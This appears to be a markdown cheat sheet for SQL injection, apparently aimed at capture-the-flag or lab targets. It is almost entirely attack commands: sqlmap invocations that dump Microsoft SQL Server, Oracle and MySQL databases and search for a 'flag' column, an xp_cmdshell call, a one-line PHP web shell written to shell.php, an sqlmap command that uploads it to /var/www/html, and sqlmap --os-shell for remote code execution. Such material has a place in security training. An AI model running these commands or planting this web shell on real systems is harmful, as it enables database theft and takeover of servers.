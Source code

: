 ```shell
sqlmap -r burp_sqlmap-server.txt --dbms="Microsoft SQL Server" --flush-session --batch --dump
```

```shell
sqlmap -r burp_sqlmap-oracle.txt --dbms=Oracle --flush-session --batch --dump
```

```shell
sqlmap -r burp_sql-server.txt \
  --dbms="Microsoft SQL Server" \
  --batch \
  --search -C flag
```

---

#### Find the value of the X-Powered-By header

```shell
curl -I http://target-site.com
```

---

## 💻 Remote Code Execution

### SQL Server

```sql
EXEC xp_cmdshell('whoami');
```

### MySQL (via file drop)

```php
echo "<?php system($_GET['cmd']); ?>" > shell.php
```

Upload using SQLMap:

```bash
sqlmap -u URL --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

---

## 📦 Database Dumping with Automated Tools

### sqlmap Core Commands

```bash
sqlmap -u "http://target/page.php?id=1" --dbs --batch
sqlmap -u "http://target/page.php?id=1" -D dbname --tables
sqlmap -u "http://target/page.php?id=1" -D dbname -T users --dump
sqlmap --os-shell  # For RCE if found
```
